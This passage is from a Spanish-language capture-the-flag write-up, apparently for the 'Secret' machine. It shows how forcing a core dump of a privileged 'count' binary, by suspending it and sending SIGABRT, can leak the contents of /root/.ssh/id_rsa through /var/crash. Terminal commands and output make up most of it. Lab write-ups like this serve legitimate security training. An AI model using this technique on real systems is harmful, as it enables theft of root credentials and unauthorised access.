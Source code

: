 
Analizando el código de `count.c`, observamos que la generación de `coredumps` está activada

![](/assets/img/Secret/image_9.png)

Por lo tanto al `abortar` el `proceso` estamos generando un `coredump` el cual está en `/var/crash`

```
dasith@secret:/opt$ ./count
Enter source file/directory name: /etc/passwd

Total characters = 1881
Total words      = 51
Total lines      = 36
Save results a file? [y/N]: y
Path: ^Z
[1]+  Stopped                 ./count
dasith@secret:/opt$ ps
    PID TTY          TIME CMD
   1237 pts/0    00:00:00 sh
   1238 pts/0    00:00:00 bash
   1373 pts/0    00:00:00 count
   1374 pts/0    00:00:00 ps
dasith@secret:/opt$ kill -ABRT 1373
dasith@secret:/opt$ fg
./count
Aborted (core dumped)
```

Vamos a obtener la `id_rsa` del usuario `root` mediante este método

```
dasith@secret:/opt$ ./count 
Enter source file/directory name: /root/.ssh/id_rsa

Total characters = 2602
Total words      = 45
Total lines      = 39
Save results a file? [y/N]: ^Z
[1]+  Stopped                 ./count
dasith@secret:/opt$ ps
    PID TTY          TIME CMD
   1237 pts/0    00:00:00 sh
   1238 pts/0    00:00:00 bash
   1576 pts/0    00:00:00 count
   1577 pts/0    00:00:00 ps
```